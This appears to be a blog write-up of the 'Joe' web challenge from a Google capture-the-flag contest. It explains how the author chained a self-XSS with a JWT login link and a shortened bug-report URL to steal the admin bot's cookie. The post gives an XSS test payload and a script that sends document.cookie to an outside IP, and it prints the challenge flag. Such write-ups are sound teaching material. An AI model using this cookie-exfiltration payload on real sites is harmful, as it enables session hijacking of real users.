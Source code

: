 ```yaml
---
published: true
---
```

## Joe Challenge writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png]({{site.baseurl}}/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png]({{site.baseurl}}/_posts/joe_admin_login.png)



As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png]({{site.baseurl}}/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:

![Screenshot from 2017-07-03 15-57-08.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-57-08.png)



**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

```<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");//</script>```

![selfxss.png]({{site.baseurl}}/_posts/selfxss.png)

As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.


![joe_url_too_big.png]({{site.baseurl}}/_posts/joe_url_too_big.png)

So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.

![Screenshot from 2017-07-03 15-59-36.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-59-36.png)

Now all i needed is to check the access log of apache that is running on my VPS.
![joe_flag.png]({{site.baseurl}}/_posts/joe_flag.png)

And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};
